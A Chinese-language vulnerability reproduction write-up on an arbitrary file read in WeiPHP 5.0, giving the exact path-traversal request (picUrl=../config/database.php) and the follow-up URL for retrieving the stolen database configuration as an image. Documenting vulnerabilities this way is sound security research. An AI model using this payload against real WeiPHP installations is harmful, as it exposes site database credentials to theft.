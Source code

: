 # WeiPHP5.0 前台任意文件读取

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，这里复现一下 `WeiPHP5.0`的前台任意文件读取漏洞

## 漏洞影响

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

使用这个漏洞，需要先以普通用户身份登录系统，然后可以直接访问

```php
/index.php/material/Material/_download_imgage?media_id=1&picUrl=../config/database.php
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805573704-e16bcb34-cdbc-42f9-bff4-c3437f72fd12.png)

这样会将 `../config/database.php`的内容读取出来，写入图片中，但是不会返回路径

接下来我们访问如下路径

```php
/index.php/home/file/user_pics
```

这样可以看到一些图片

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805651126-489cff34-a945-4c72-b7c9-1968a09c8b4c.png)

访问该图片，是损坏的

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805728192-b2b08cea-c299-4714-912f-312819526b06.png)

下载下来，记事本查看内容

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805995699-87733775-ab40-432c-98f4-ebb18a464f8e.png)

## 总结

发现该文件读取漏洞本身是不难的，非常明显，难的是获取到其写入的文件名，并且能找到一个可以展示出来的页面。这虽然是一个前台漏洞，但实际上也是需要一个普通用户权限登录的，另外，通过这个洞，我还获取到了另外一个可能的漏洞，有可能可以获取到一个小 `0day`，之后再分享给大家。

## 参考链接

- https://blog.csdn.net/solitudi/article/details/11656749



`github` 链接：`https://github.com/N0puple/vulPOC`

想要获取更多资讯，或者获取文中环境可以关注公众号 “安全漏洞复现”，回复 “漏洞环境”
